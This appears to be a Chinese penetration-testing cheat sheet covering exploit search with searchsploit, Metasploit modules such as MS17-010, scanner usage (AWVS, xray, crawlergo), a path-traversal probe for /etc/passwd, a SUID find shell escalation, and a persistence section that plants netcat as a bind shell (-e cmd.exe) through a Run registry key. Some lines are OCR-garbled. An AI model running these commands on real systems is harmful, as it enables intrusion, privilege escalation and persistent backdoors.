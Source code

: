 https://github.com/Threekiii/Awesome-Redteam
https://github.com/CnHack3r/Penetration_PoC

Web漏洞分析
* 我们要挖掘什么漏洞?
* 应该从哪里挖掘?
* 网站源码分析
* 路径穿越 见 ## nginx 路径穿越
* https://github.com/swisskyrepo/PayloadsAllTheThings
* 已知源码
* 我们可以下载其源码本地分析
* 百度该源码漏洞
* 未知源码
* 黑盒测试该网站漏洞(手工、工具自动扫描)

## 渗透流程
1. 信息收集 > fscan/cscan, NMAP > AWVS > Appscan > Burpsuite > x-ray
1.1 msf > searchsploit thinkphp
```shell
  msf > searchsploit thinkphp
  cd /usr/share/exploitdb/exploits/php/webapps
  cat 46150.txt
```
1.1 cs上线后联动msf, cs 插件 收集域信息
2. msfconsole
```shell
migrate
search ms10_018 #(xp的)
ms08_067 # (445端口, 2008以外系统, KB958644)
-- ms17_010: 用 AutoBlue-MS17-010见90_tools
search ms17_010 # (永恒之蓝)
```
3. Web:  kali - web程序 -  ZAP 扫描
```
1. vulmap:  python vulmap.py -u http://192.168.50.8:2003/
2. web 目录遍历 `downfile.jsp?filename=fan.pdf` 测试 `../../../../etc/passwd`
```
4. [linux suid find 提权](https://mp.weixin.qq.com/s/8rgvLbOmmjcxVZT7BoW5Og)
```shell
find / -perm -4000 # 如果有find 执行下面
find ./ aaa -exec '/bin/sh' \;
```
5.横向移动
msf: 1. autoroute 2.add socks proxy 3.域控
cs: smb上线其他域

## MSF
nmap 探测漏洞

searchsploit
."searchsploit"是一个用于Exploit-DB的命令行搜索工具,它还允许你随身带一份
Exploit-DB的副本.
* SearchSploit为您提供了在本地保存的存储库中执行详细的离线搜索的能力.这种能力特
别适用于在没有互联网接入的情况下对网络进行安全评估.许多漏洞都包含了二进制文件
的链接,这些文件不包含在标准存储库中,但可以在我们的Exploit-DB二进制文件中找到
* 如果您预计您将在一个没有Internet的网络环境进行渗透测试,请确保您检查了两个存储库
以获得最完整的数据集.注意,这个工具的名称是"SearchSploit",顾名思义,它将搜
索所有的漏洞和shellcode.它不会包含任何文件和谷歌黑客数据库的结果
* 终端输入searchsploit启动(已经默认在Kali/Parrot中安装)

https://www.exploit-db.com/

```shell
searchsploit
searchsploit -m xxxx/xxx.py  # 复制到当前目录
searchsploit -t linux remote # 标题包含Linux Remote
searchsploit apache
```

基本搜索
* 基本搜索会同时匹配标题和路径中的内容
* 如:searchsploit smb windows remote
* 标题搜索
* 标题搜索只匹配标题,不会对路径中的关键词进行匹配
* 如:searchsploit-t smb windows remote
* 删除不想要的结果
* 使用--exclude＝选项删除不想要的结果
* 如:searchsploit smb windows remote--exclude＝＂(POC)Jtxt＂

## AWVS
Acunetix Web Vulnerability Scanner(简称AWVS)是一款知名
的网络漏洞扫描工具,它通过网络爬虫测试你的网站安全,检测流
行安全漏洞.
Acunetix推出了一个具有漏洞的测试网站
http://test.vulnweb.com/.

AWVS常见功能
* 网站爬行
* 漏洞扫描
* 目标发现
* 子域名扫描
* http 编辑
* http嗅探
* http模糊测试
* 认证测试
* 网络服务扫描器

linux 版本安装后。访问时用https://xxx:3443/

[AWVS13批量添加目标脚本](https://blog.csdn.net/weixin_45382656/article/details/118565077)

## xray
https://github.com/chaitin/xray

awvs+xray https://www.cnblogs.com/zzjdbk/p/13195955.html

```
xray webscan --basic-crawler http://example.com --html-output vuln.html
xray webscan --listen 0.0.0.0:7001 --html-output awvs.html
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
```
### crawergo联动
https://www.freebuf.com/sectool/252790.html

```sh
crawlergo -c YourChromiumPath -t 标签页数 Url
./xray webscan --listen 127.0.0.1:7777 --html-output vulnerability.html
./crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10--request-proxy http://127.0.0.1:7777 http://testphp.vulnweb.com/
```

> 如果想半⾃动化⼀点，比如测试多个url可以参考：https://github.com/timwhitez/crawlergo_x_XRAY

与 w13scan 联动：
```sh
python3 w13scan.py -s 127.0.0.1 --html   # 会监听7778
/crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10 --request-proxy http://127.0.0.1:7778 http://testphp.vulnweb.com/
```

## 存在目录时，返回403响应码

# 进行权限维持
开机自启动
每次启动登录时都会按顺序自动执行.
```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
- 上传nc

upload nc.exe C:\\windows\\system32

- 查看自启动注册表项I

reg enumkey-k HKLM\\software\\microsoft\\windows\\currentversion\\un

- 添加注册表,开机启动nc并开启监听

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc-d 'C:\\windows\\system32\\nc64.exe-Ldp 5555-e cmd.exe'

- 查看注册表指定项值

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc

- 计划任务

`schtasks /create /sc MINUTE /mo 1 /tr C:\Users\Administrator\Desktop\mx\5555.exe /tn test`


# 系统审记
## nginx 路径穿越
```
location /xxx {
  alias /abc/;
}
```
修复

```
location /xxx/ {
  alias /abc/;
}
```